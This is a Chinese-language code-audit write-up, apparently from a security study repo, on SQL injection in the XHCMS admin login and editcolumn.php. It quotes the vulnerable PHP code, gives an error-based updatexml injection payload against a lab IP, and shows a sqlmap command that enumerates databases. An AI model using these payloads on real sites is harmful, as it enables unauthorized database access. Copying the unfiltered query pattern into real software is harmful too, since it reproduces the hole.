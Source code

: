 这里需要去利用admin的登陆页面

```
http://192.168.121.130/xhcms/admin/?r=login
```

```
关键代码：
$login=$_POST['login'];			//参数直接由POST获取，无任何过滤
$user=$_POST['user'];
$password=$_POST['password'];
$checkbox=$_POST['checkbox'];

$query = "SELECT * FROM manage WHERE user='$user'";
$result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$users = mysql_fetch_array($result);

$passwords=$users['password'];
if(md5($password)<>$passwords)	//将输入的password的md5值进行匹配
{
	echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
	exit;	
}
```

查询的sql语句是在user这个地方,并且这里参数除了用单引号闭合并没有其他过滤处理了

这里开启了mysql_error()，可以进行报错注入,注入点在user

```
1' or updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

![image-20210923114917909](images/8.png)

用sqlmap探测也可以这里

```
python sqlmap.py -r 1.txt --dbs --batch
```

报错方式和注入点sqlmap也给了出来

![image-20210923120255569](images/9.png)

不过这里跑了好久

![image-20210923120136583](images/10.png)

### /admin/files/editcolumn.php

```
<?php
require '../inc/checklogin.php';
require '../inc/conn.php';
$columnopen='class="open"';
$id=$_GET['id'];
$type=$_GET['type'];

if ($type==1){
$query = "SELECT * FROM nav WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$nav = mysql_fetch_array($resul);
}
if ($type==2){
$query = "SELECT * FROM navclass WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$nav = mysql_fetch_array($resul);
}
```